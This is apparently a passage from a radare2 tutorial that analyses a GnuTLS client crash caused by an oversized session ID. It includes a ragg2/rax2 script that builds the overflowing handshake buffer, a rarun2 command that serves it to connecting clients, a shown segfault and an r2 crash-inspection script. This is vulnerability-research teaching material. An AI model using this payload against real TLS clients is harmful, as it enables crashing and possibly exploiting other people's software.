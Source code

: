Crash course
------------
In the test case there is a memset of 255 bytes with the 0xff value. This is the buffer that overflows and we want to know at which offset of the payload the code is picking the pointer to `free()`. We can do this using a sequence instead of just a plain padding.

* Sequence: 0102030405060708...
* Padding: 4141414141414141...

So, instead of writing `0xff` into the buffer we will write a sequence of bytes and we will read the value of `ecx` to determine the offset we have to use.

The `ragg2` tool fits perfectly with this task, it's a tool that allows to create shellcodes with payloads, nopsleds, sequences, paddings and more. We may recreate the buffer with this:

	$ cat payload.sh
	#!/bin/sh

	TYPE=A # Fill with 'A'
	TYPE=S # Create sequence

	ragg2 \
	-B 16 \
	-B "03 00 01 25" \
	-B "02 00 01 21" \
	-B "03 00" \
	-B 0000000001 -B 0000000001 -B 0000000001 \
	-B 0000000001 -B 0000000001 -B 0000000001 \
	-B 0000 \
	-B fe \
	-p ${TYPE}256 | rax2 -s -

The `fe` is the longest valid length to trigger the crash (`ff` is checked), Yes, session_id_length is defined by an unsigned byte, So that's the maximum possible value for that case. At the end of the buffer we are appending a buffer of `A` or a sequence (uncomment the line).

Note the last command after the pipe. This is `rax2` converting an hexpair list into a binary buffer. This way we can use it directly into a socket to crash the clients that are connecting to us. We can achieve this with `rarun2`:

	$ rarun2 program=./payload.sh listen=8080

Then, in another terminal:

	$ gnutls-cli -p 8080 localhost
	Processed 168 CA certificate(s).
	Resolving 'localhost'...
	Connecting to 'localhost:8080'...
	Segmentation fault (core dumped)

![img](http://rada.re/img/gnutls-seq.png)

In order to get a quick overview of the crash I wrote a small r2 script that runs inside the debugger session and displays the registers, stack and some pointer arithmetics to determine the location of the affected pointer.

	$ cat crashlog.r2
	dc                 # continue execution
	dr=                # show registers
	.dr*               # import regstate
	pd 10 @ eip        # disasm on eip
	x 64 @ esp         # show stack state
